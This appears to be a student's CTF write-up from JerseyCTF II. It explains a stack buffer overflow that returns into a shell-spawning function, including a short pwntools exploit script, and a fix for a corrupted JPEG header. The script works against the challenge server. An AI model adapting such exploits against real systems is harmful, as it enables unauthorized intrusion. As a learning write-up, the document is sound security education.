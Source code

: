 # Introduction

I am a Cyberfellow (MS in Cybersecurity) at New York University (NYU). I am taking offensive security in Spring 2022. This class requires that I participate in a CTF (Capture The Flag) competition and produce a write-up. I and two of my classmates participated in JerceyCTFII that was hosted on April 9 - 10, 2022. Mitchell has a nice [write-up](https://github.com/Cellolizard/CTF-Writeups/tree/main/jerseyctfII) of the work that we did as a team. I would focus on two challenges that I was able to solve independently.

The class requirement was that the challenges should be moderately challenging, usually more than 300 points.

# going-over (350 points)
**Challenge:** My friends said they were going on a trip but I think they ran into some trouble. They sent me these two files before we lost contact (src.c and going-over). nc 0.cloud.chals.io 10197 

**Solution:** The 'going-over' was a binary file. I used the tool 'cutter' to get a general understanding of the binary. The overview tab was useful to know that there was no canary, no PIE, and NX was enabled.  

![Overview](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-cutter-overview.png)

The **Strings** tab revealed that the binary had the string '/bin/sh'.  

![Strings](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-cutter-string.png)

The **Imports** tab revealed two interesting functions: a) grets, indicating that there was possibility for Buffer Overflow (BOF), and b) execve, ability to launch shell using already found string '/bin/sh'. 

![Imports](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-cutter-imports.png)

Opening the binary in Ghidra, I found that there was a buffer of size 12 bytes.  

![Ghidra main](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-ghidra-main.png)

With all the information discovered so far, I had a hunch that I would have to perform a stack overflow and overwrite the return address so that execve can be executed with '/bin/sh' as parameter. The next question was how to achieve it. With further digging, I found the function grab_ledge at address 004011b6. This function was executing execve with '/bin/sh' as parameter.  

![grab_ledge](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/go-ghidra-ledge.png)

I had all the pieces together now. I wrote and executed the python code below that revealed the flag.

```python
from pwn import *
p = process('./going-over')
p = remote("0.cloud.chals.io", 10197)
p.recvuntil("but I can't find it!!!")
exploit = b'A'*20+ b'\xb6\x11\x40\x00\x00\x00\x00\x00'
print(exploit)
p.sendline(exploit)
p.interactive()
```
# corrupted-file (400 points)
**Challenge:** Can you find a way to fix our corrupted .jpg file? 

**Solution:** I tried opening the given "flag_mod.jpg" file and got the error below.

![Error](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/flag_mod_error.png)

I then googled for any any CTF write-ups for corrupted images and came across [Corrupt Transmission](https://github.com/blinils/CTF/blob/master/CTF-Jeopardy/2016-icectf/challenges/corrupt-transmission-50/README.md). This gave me some good ideas to work on and introduced me to the tool **exiftool**. The write-up was for .png file, but I was dealing with .jpg file. With further research, I came across [JPG Sihgnature Format](https://www.file-recovery.com/jpg-signature-format.htm#:~:text=JPEG%2FJFIF%2C%20it%20is%20the,hex%20values%20FF%20D8%20FF). I learnt that the .jpg file should start with an image marker which always contains the marker code hex values FF D8 FF E0. I then opened the given file using **xxd**

<img width="481" alt="image" src="https://user-images.githubusercontent.com/8462520/163689310-45970ce4-ab47-46b1-8c79-8ee5ab5ddd1c.png">

The given file was starting with **00 10 4a 46** rather than required bytes **FF D8 FF E0**. Used the command ```printf '\xff\xd8\xff\xe0' | cat - flag_mod.jpg > new_flag.jpg``` to create a new .jpg file with correct signature. I was able to open the modified file and it revealed the flag.

![Flag](https://github.com/a759116/CTF-Writeups/blob/main/jerseyctfii/src/new_flag.jpg)

# Conclusion
It was my first time participating in a CTF. It was exciting to see that I could apply my learning from the class. I had 
never done any forensic challenges before. However, with some research, I was able to solve the "corrupted-file" 
challenge. It was rewarding as well as boosted my confidence. Last but not least, it was a great learning experience working 
with Mitchell and Alex. Looking forward to participating in more CTF competitions in the future.
